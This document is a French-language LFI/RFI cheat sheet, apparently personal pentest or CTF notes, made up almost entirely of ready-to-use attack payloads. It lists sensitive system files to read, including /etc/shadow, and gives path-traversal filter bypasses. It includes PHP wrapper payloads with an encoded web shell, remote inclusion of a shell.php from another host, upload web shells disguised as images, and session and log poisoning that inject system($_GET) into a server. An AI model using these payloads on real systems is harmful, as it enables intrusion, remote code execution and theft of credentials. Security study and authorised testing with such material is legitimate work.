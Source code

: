 # Fichiers Sensibles

```
C:\Windows\boot.ini
/windows/win.ini
/windows/system32/drivers/etc/hosts
/etc/passwd
/etc/shadow  
/etc/hosts  
/proc/self/environ  
/var/log/auth.log 
```

### Bypass des Restrictions Connues

```bash
....//....//....//....//etc/passwd
/index.php?%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
../../../../etc/passwd%00
php://filter/read=convert.base64-encode/resource=config
....\/....\/....\/etc/passwd
..///////..////..//////etc/passwd
..././..././..././..././..././etc/passwd
```

### Wrappers PHP

```bash
php://filter/read=convert.base64-encode/resource=config
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
expect://id
```

### Remote File Inclusion (RFI)

```bash
http://127.0.0.1/index.php
ftp://10.10.25.63/shell.php?0=id
\\10.10.25.63\shell.php?0=id
```

### Upload de Fichier

```bash
echo 'GIF8<?php system($_GET["0"]); ?>' > shell.gif
./profile_images/shell.gif&0=id

zip shell.jpg shell.php
zip://./profile_images/shell.jpg%23shell.php&0=id

php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
phar://./profile_images/shell.jpg%2Fshell.txt&0=id
```

### Poisoning PHP Sessions

```bash
http://94.237.53.113:55752/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
/var/lib/php/sessions/sess_xxxxxx&cmd=id
```

### Log Poisoning

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["0"]); ?>'
```

### Listes de Chemins pour Path Traversal

- **Linux** : [dirTraversal-nix.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)
- **Windows** : [dirTraversal-win.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

### Listes de Fichiers Sensibles

- **Linux** : [LFI-gracefulsecurity-linux.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt)
- **Windows** : [LFI-gracefulsecurity-windows.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt)

### Liste de Paramètres PHP

- [fuzz-lfi-params-list.txt](https://github.com/whiteknight7/wordlist/blob/main/fuzz-lfi-params-list.txt)

### Autres Listes

- [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
